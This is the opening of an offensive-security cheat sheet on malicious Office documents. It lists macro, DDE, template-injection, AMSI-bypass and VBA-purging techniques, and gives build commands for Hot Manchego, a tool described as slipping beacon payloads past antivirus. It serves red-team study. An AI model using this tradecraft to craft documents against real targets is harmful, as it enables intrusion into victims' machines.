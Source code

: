 # Office - Attacks 

## Summary

* [XLSM - Hot Manchego](#xlsm---hot-manchego)
* [XLS - Macrome](#xls---macrome)
* [XLM Excel 4.0 - SharpShooter](#xlm-excel-40---sharpshooter)
* [XLM Excel 4.0 - EXCELntDonut](#xlm-excel-40---excelntdonut)
* [XLM Excel 4.0 - EXEC](#xlm-excel-40---exec)
* [DOCM - Metasploit](#docm---metasploit)
* [DOCM - Download and Execute](#docm---download-and-execute)
* [DOCM - Macro Creator](#docm---macro-creator)
* [DOCM - C# converted to Office VBA macro](#docm---c-converted-to-office-vba-macro)
* [DOCM - VBA Wscript](#docm---vba-wscript)
* [DOCM - VBA Shell Execute Comment](#docm---vba-shell-execute-comment)
* [DOCM - VBA Spawning via svchost.exe using Scheduled Task](#docm---vba-spawning-via-svchostexe-using-scheduled-task)
* [DCOM - WMI COM functions (VBA AMSI)](#docm---wmi-com-functions)
* [DOCM - winmgmts](#docm---winmgmts)
* [DOCM - Macro Pack - Macro and DDE](#docmxlm---macro-pack---macro-and-dde)
* [DOCM - CACTUSTORCH VBA Module](#docm---cactustorch-vba-module)
* [DOCM - MMG with Custom DL + Exec](#docm---mmg-with-custom-dl--exec)
* [VBA Obfuscation](#vba-obfuscation)
* [VBA Purging](#vba-purging)
    * [OfficePurge](#officepurge)
    * [EvilClippy](#evilclippy)
* [VBA AMSI](#vba-amsi)
* [VBA - Offensive Security Template](#vba---offensive-security-template)
* [DOCX - Template Injection](#docx---template-injection)
* [DOCX - DDE](#docx---dde)
* [References](#references)

## XLSM - Hot Manchego 

> When using EPPlus, the creation of the Excel document varied significantly enough that most A/V didn't catch a simple lolbas payload to get a beacon on a target machine.

* https://github.com/FortyNorthSecurity/hot-manchego

```ps1
Generate CS Macro and save it to Windows as vba.txt
PS> New-Item blank.xlsm
PS> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:EPPlus.dll hot-manchego.cs
PS> .\hot-manchego.exe .\blank.xlsm .\vba.txt
```

## XLM - Macrome

> XOR Obfuscation technique will NOT work with VBA macros since VBA is stored in a different stream that will not be encrypted when you password protect the document. This only works for Excel 4.0 macros.
